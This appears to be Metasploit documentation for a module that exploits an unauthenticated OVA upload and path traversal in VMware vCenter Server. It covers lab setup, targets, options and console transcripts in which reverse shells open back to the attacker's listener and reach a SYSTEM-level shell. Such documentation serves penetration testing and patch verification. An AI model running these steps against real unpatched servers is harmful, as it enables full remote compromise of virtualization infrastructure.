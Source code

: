 ## Vulnerable Application

### Description

This module exploits an unauthenticated OVA file upload and path
traversal in VMware vCenter Server to write a JSP payload to a
web-accessible directory.

Fixed versions are 6.5 Update 3n, 6.7 Update 3l, and 7.0 Update 1c.
Note that later vulnerable versions of the Linux appliance aren't
exploitable via the webshell technique. Furthermore, writing an SSH
public key to `/home/vsphere-ui/.ssh/authorized_keys` works, but the
user's non-existent password expires 90 days after install, rendering
the technique nearly useless against production environments.

You'll have the best luck targeting older versions of the Linux
appliance. The Windows target should work ubiquitously.

### Setup

Follow [VMware's official
documentation](https://docs.vmware.com/en/VMware-vSphere/6.7/com.vmware.vcenter.install.doc/GUID-8DC3866D-5087-40A2-8067-1361A2AF95BD.html)
on installing and configuring vCenter Server, or you can wing it like
me. The Linux appliance is meant to be deployed via ESXi, but I
short-circuited the procedure by mounting the ISO and importing the OVA
directly into VMware Fusion (or your desired hypervisor). YMMV.

```
wvu@kharak:~/Downloads$ hdiutil attach VMware-VCSA-all-6.7.0-11726888.iso
/dev/disk2          	                               	/Volumes/VMware VCSA
wvu@kharak:~/Downloads$ ls -l /Volumes/VMware\ VCSA/vcsa
total 4621748
-r-xr-xr-x  1 wvu  staff  2366330368 Jan 10  2019 VMware-vCenter-Server-Appliance-6.7.0.21000-11726888_OVF10.ova
dr-xr-xr-x  5 wvu  staff        2048 Jan 10  2019 ovftool
-r-xr-xr-x  1 wvu  staff          52 Jan 10  2019 version.txt
wvu@kharak:~/Downloads$
```

If you're using the workaround above, you'll need to connect to HTTPS
port 5480 to complete [Stage
2](https://docs.vmware.com/en/VMware-vSphere/6.7/com.vmware.vcenter.install.doc/GUID-CA114526-A413-4219-9FA7-F5A9E9ACA357.html)
of the faux deployment. You may need to set a root password in the
console first. The vSphere Client should be accessible on port 443 after
Stage 2 is complete.

You'll want to test versions earlier than 6.7 Update 3l, since that's
patched. Later vulnerable versions of the Linux appliance aren't
exploitable via the webshell technique. I haven't been able to download
and test them all. Sorry.

**Note:** If you're testing on Windows, using Windows Server 2019 will
fail miserably. Please use [Windows Server 2016 or
earlier](https://kb.vmware.com/s/article/2091273). It must be Windows
Server. I can't stress this enough!

**PROTIP:** Removing or otherwise disabling DNS resolution in the Linux
appliance will make setup run faster if you don't have an FQDN and DNS
server to back it up. This didn't seem to make a difference on Windows.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets the Linux appliance with a JSP payload. `VMware vCenter
Server <= 6.7 Update 1b (Linux)` is supported.

### 1

This targets the Windows install with a JSP payload. `VMware vCenter
Server <= 6.7 Update 3j (Windows)` is supported.

## Options

### SprayAndPrayMin

Spray JSP payload path starting at this index.

### SprayAndPrayMax

Spray JSP payload path stopping at this index.

## Scenarios

### VMware vCenter Server 6.7 Update 1b (Linux appliance)

```
msf > use exploit/multi/http/vmware_vcenter_uploadova_rce
[*] Using configured payload java/jsp_shell_reverse_tcp
msf exploit(multi/http/vmware_vcenter_uploadova_rce) > options

Module options (exploit/multi/http/vmware_vcenter_uploadova_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   VMware vCenter Server <= 6.7 Update 1b (Linux)


msf exploit(multi/http/vmware_vcenter_uploadova_rce) > set rhosts 192.168.123.135
rhosts => 192.168.123.135
msf exploit(multi/http/vmware_vcenter_uploadova_rce) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf exploit(multi/http/vmware_vcenter_uploadova_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Using auxiliary/scanner/vmware/esx_fingerprint as check
[+] 192.168.123.135:443 - Identified VMware vCenter Server 6.7.0 build-11727113
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target is vulnerable. Unauthenticated endpoint access granted.
[*] Uploading OVA file: O2qAd1Y7t0bhyUQFJ32Vyre6TQHcGoun.ova
[+] Successfully uploaded OVA file
[*] Requesting JSP payload: https://192.168.123.135/ui/resources/gVh2ROzD9QyyGNF6.jsp
[+] Successfully requested JSP payload
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.135:55342) at 2021-03-05 16:49:05 -0600
[+] Deleted /usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/41/0/h5ngc.war/resources/gVh2ROzD9QyyGNF6.jsp
[+] Deleted /usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/40/0/h5ngc.war/resources/gVh2ROzD9QyyGNF6.jsp

id
uid=1016(vsphere-ui) gid=100(users) groups=100(users),59001(cis)
uname -a
Linux photon-machine 4.4.161-1.ph1 #1-photon SMP Wed Oct 17 12:15:18 UTC 2018 x86_64 GNU/Linux
^Z
Background session 1? [y/N]  y
```

### VMware vCenter Server 6.7 Update 3j on Windows Server 2016

```
msf exploit(multi/http/vmware_vcenter_uploadova_rce) > set target 1
target => 1
msf exploit(multi/http/vmware_vcenter_uploadova_rce) > set rhosts 192.168.123.194
rhosts => 192.168.123.194
msf exploit(multi/http/vmware_vcenter_uploadova_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Using auxiliary/scanner/vmware/esx_fingerprint as check
[+] 192.168.123.194:443 - Identified VMware vCenter Server 6.7.0 build-16709044
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target is vulnerable. Unauthenticated endpoint access granted.
[*] Uploading OVA file: 0ggORbkxAcptUeH6U5S8.ova
[+] Successfully uploaded OVA file
[*] Requesting JSP payload: https://192.168.123.194/statsreport/UQbpAxH7WTmrzqcb7AugtYnMB2z0.jsp
[+] Successfully requested JSP payload
[*] Command shell session 2 opened (192.168.123.1:4444 -> 192.168.123.194:55411) at 2021-03-05 16:50:29 -0600
[!] Tried to delete /ProgramData/VMware/vCenterServer/data/perfcharts/tc-instance/webapps/statsreport/UQbpAxH7WTmrzqcb7AugtYnMB2z0.jsp, unknown result


C:\Program Files\VMware\vCenter Server\perfcharts\wrapper\bin>whoami
whoami
nt authority\system

C:\Program Files\VMware\vCenter Server\perfcharts\wrapper\bin>
```
